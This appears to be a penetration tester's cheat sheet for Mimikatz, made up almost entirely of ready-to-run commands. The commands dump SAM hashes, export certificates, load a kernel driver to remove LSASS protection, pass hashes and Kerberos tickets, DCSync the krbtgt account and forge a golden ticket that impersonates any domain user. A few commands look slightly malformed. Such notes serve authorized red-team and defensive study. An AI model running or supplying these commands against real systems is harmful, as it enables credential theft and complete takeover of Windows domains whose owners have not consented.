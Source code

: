 # Mimikatz

## SAM File - Local accounts

```csharp
mimikatz # privilege::debug Privilege
mimikatz # lsadump::SAM /SAM:C:\Users\b3v1l\Desktop\SAM /SYSTEM:C:\Users\b3v1l\Desktop\SYSTEM
```

```csharp
lsadump::sam /system:C:\Users\b3v1l\Documents\test\sam\system /sam:C:\Users\b3v1l\Documents\test\sam\sam
```

![](../../../.gitbook/assets/image%20%28309%29.png)

## Export Certificats

```csharp
mimikatz# crypto::capi
mimikatz# privilege:debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

## Disable LSASS protection

### Manually

* Upload mimidrv.sys on the target
* Create a service task

```csharp
sc create mimidrv binpath= C:\temp\mimidrv.sys type= kernel start= demand
```

* Start the task

```csharp
sc start mimidrv
```

* Then, using mimikatz

```csharp
!processprotect /process:lsass.exe /remove
```

### Full mimikatz version

* Copy the mimikatz and sys driver on the disk
* Start mimikatz and load the driver. Disable Lsass protection

```csharp
privilege::debug
!+
!processprotect /process:lsass.exe /remove
```

## Pass the Hash

```text
Invoke-Mimikatz -Command '"sekurlsa::pth /user:targetaccount /domain:test.lab.local /ntlm:b38ff50
264bc43012185d82c69794a4d8 /run:powershell.exe"'
```

## Kerberos Tickets

### List tickets

```csharp
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

### Export tickets

```text
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### Pass the Ticket

```csharp
Invoke-Mimikatz -Command '"kerberos::ptt [0;9eaea]-2-0-60a10000-administrator@krbtgt-HOME.LAB.COM.kirbi"'
```

### Golden Ticket

#### Dcsync using a priv account on the dc 

```csharp
lsadump::dcsync /domain:target.domain.com /user:prod\krbtgt
```

#### Use krbtgt to impersonate anyone on the domain

```csharp
 kerberos::golden /user:Administrator /domain:target.domain.com /sid:S-1-5-21-634106289-36255656793-12345407 /id:500 /group/512 /krbtgt=dfdsfwefdccfbb7cc8eeadf7ce1 /startoffset=0 /endin=600 /renewmax:10080 /ptt
```

## DSync

```csharp
 Invoke-Mimikatz -Command '"lsadump::dcsync /user:Domain\krbtgt"'
```




